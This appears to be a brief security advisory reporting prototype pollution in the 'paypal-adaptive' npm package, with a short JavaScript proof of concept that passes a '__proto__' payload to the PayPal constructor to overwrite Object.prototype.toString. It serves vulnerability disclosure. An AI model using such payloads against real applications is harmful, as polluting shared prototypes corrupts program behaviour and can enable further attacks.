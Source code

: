 # Overview

`paypal-adaptive` is a sdk for Paypal Adaptive Payments and Paypal Adaptive Accounts APIs, this package is vulnerable to Prototype Pollution.

The PayPal function could be tricked into adding or modifying properties of `Object.prototype` using a `proto` payload.

# Proof of Concept

```
var PayPal = require('paypal-adaptive');
var p = new PayPal({"__proto__": {"toString": "huntr.dev"}, "userId": "foo", "password": "bar", "signature": "abcd", "appId": "1234", "sandbox": "1234"});
console.log(({}).toString);
```
